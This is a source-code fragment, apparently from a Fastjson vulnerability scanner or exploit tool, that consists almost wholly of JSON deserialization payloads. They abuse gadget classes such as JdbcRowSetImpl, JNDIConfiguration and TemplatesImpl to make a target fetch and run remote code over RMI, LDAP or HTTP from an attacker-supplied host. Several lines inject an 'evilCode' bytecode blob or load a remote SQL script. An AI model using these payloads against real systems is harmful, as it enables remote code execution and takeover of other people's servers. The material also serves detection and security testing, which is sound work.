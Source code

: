 "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}"

"{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}";

"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}}"

"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\",\"autoCommit\":true}}"

"{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"

"{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"

"{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://" + detetct.localip + ":1072/Exploit1\"}"
"{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://" + detetct.localip + ":8086/inject.sql'\"}"
"{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"" + evilCode + "\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{ },\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}"
"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}";
"{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}"
"{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}}"
"{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\",\"autoCommit\":true}"
 "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"
"{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"
"{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://" + detetct.localip + ":1074/Exploit1\"}"















